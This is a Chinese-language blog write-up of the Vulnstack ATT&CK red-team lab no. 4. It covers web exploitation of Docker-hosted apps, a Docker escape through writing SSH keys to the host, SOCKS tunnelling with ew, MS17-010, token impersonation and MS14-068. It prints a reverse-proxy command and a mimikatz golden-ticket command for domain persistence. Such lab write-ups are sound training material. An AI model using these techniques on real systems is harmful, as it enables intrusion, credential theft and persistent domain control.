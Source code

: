 ```yaml
---
layout:     post
title:    渗透-Vulnstack靶机学习4
subtitle:   Vulnstack靶机学习4
date:       2020-02-22
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 域渗透
    - 红队
    - 内网渗透
---
```

# 渗透-Vulnstack靶机学习4

Vulnstack是红日安全团队出品的一个实战环境，本次测试的红日安全 ATT&CK实战系列——红队评估（四）靶场环境，下载地址：[http://vulnstack.qiyuanxuetang.net/vuln/detail/6/](http://vulnstack.qiyuanxuetang.net/vuln/detail/6/)

## Web
三个虚拟机文件，根据说明ubuntu上有三个应用开着，应该是docker的，三个都挺好拿shell的。  
一个是phpmyadmin的包含漏洞。  
![200217_1](/img/200217_phpinfo.png)  
一个是tomcat的。  
![200217_2](/img/200217_tomcat.png)  
直接put写就完事了。  
还有一个st2的。  
![200217_3](/img/200217_st2.jpg)  

## Docker逃逸
尝试试直接用脏牛。可惜不行。    
![200217_4](/img/200217_dockerfree.png)  
回过来看看能不能读写宿主机。  
![200217_5](/img/200217_dockerfree2.png)  
那就简单了，可以直接写个密钥上去，然后直接去连接。  
先挂载到docker内。  
![200217_16](/img/200217_mount.png)  
然后写isa。  
![200217_6](/img/200217_key.png)  
这样连上去还不能sudo。  
中间还有些步骤，修改passwd，shadow等文件的图丢了。。有问题的可以自行查阅相关内容。  
最后切换成root即可。  
![200217_7](/img/200217_root.jpg)  

## 内网
### 代理进入
有了ubuntu直接开代理就行，正向反向都行，但是后面在用msf的时候有点问题，meterpreter的session老是断连接，后来犯了就直接不用代理了这里就简单提一下。  
我用的是ew。  
正向代理：  
```
./ew  -s ssocksd -l 39555
```
然后在proxychain配置文件中加上这个sock5代理即可。  
反向代理的话：  
现在kali上执行  
```
ew -s rcsocks -l 39555 -e 39444
```
ubuntu上执行  
```
ew -s rssocks -d kali ip -e 39444
```
然后进入也是加上本地39555这个代理就行了。   
### 内网渗透
知道ip的情况下就不扫描了。  
直接ms17-010打就行了。  
![200217_8](/img/200217_ms17010.jpg)  
返回的是一个system的session。  
收集信息前要进行降权。  
![200217_9](/img/200217_token.jpg)  
直接用impersonate_token "DEMO\douser"或者直接窃取token。  
![200217_10](/img/200217_stealtoken.jpg)  
然后就是信息收集。  
网络配置看一下。  
在域内，demo.com，DNS应该是域控的ip。  
![200217_11](/img/200217_ipconfig.png)  
net view一下。  
![200217_12](/img/200217_netview.jpg)  
看下补丁，应该是没有打ms14-068的补丁。  
![200217_13](/img/200217_systeminfo.jpg)  
要利用还要知道域成员douser的密码，这里有两个选择，可以直接system下mimikatz，根据提示还有历史命令信息泄漏，翻了下ubuntu的历史命令，有密码，冲就完事了。  
![200217_14](/img/200217_history.png)  
机器桌面目录下有ms14-068，省的上传了。。。。直接利用。   
![200217_15](/img/200217_ms14068.jpg)  
然后直接利用桌面的mimikatz导入生成的票据就完事了。  
![200217_17](/img/200217_mimi.jpg)  
然后再用访问域控。  
![200217_18](/img/200217_dir.jpg)  
到这里后面其实就是域维权内容了。因为过来的session实在是太tm脆弱了，后面我就没继续了。  
简单说一下即可。  
通过sc直接在域控上创建服务并且启动，用mimikatz直接导出krbtgt的hash，然后在域成员机器上用mimikatz再去伪造黄金票据就可以了。  
```
mimikatz “kerberos::golden /domain:domain /sid:domain sid /rc4:krbtgt NTLM Hash /user:username /ptt" exit
```
用户名任意。  
就可以在一段时间内维持域内权限了（krbtgt不更新密码即可）。  

## 参考
[https://www.anquanke.com/post/id/179623](https://www.anquanke.com/post/id/179623)  
[https://payloads.online/archivers/2018-11-30/1#%E9%BB%84%E9%87%91%E7%A5%A8%E6%8D%AEgolden-tickets-msf-kiwi](https://payloads.online/archivers/2018-11-30/1#%E9%BB%84%E9%87%91%E7%A5%A8%E6%8D%AEgolden-tickets-msf-kiwi)  

